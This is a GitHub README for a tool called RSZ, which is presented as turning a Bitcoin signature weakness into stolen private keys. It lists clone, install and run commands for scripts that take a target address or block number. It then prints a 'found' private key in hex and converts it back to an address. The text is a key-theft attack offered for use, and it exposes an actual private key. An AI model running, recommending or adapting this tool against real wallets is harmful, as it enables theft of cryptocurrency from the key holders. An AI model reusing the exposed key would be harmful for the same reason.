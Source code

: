 # RSZ
BITCOIN RSZ VULNERABILITY TO PRIVETKEY 
```bash
git clone https://github.com/Cryptographytube/RSZ
cd RSZ
pip install -r requirements.txt
python3 btc_block_explorer.py
```
E.G Enter Bitcoin address: 1BFhrfTTZP3Nw4BNy4eX4KFLsn9ZeijcMm

![IMG_20250117_143603](https://github.com/user-attachments/assets/a7536044-3ab8-48fb-8d81-3b2fb50489ea)
```bash
python3 RSZ-BLOCK-PRIVATEKEY.py
```
RSZ Vulnerability Block Number
E.G Enter block number: 170399

![IMG_20250117_144500](https://github.com/user-attachments/assets/3bd2f8f7-6e7f-4150-8d14-bfcc86177d70)

FOUND PRIVETKEY

![IMG_20250117_145628](https://github.com/user-attachments/assets/a4bdeb41-6a3b-4f9d-8ea2-1cf571beebe1)

Found Private Key
0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

PRIVETKEY REAL PRIVETKEY CONVERTED
```bash
python3 key_to_address.py
```
Enter Private Key (Hex) : 0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

![IMG_20250117_150257](https://github.com/user-attachments/assets/3272f26c-e826-4374-94f5-a5d78fad865d)
Real Private key : c477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

![IMG_20250117_151442](https://github.com/user-attachments/assets/c1155b7e-bd8e-424a-ac16-a7ad1ad78b75)



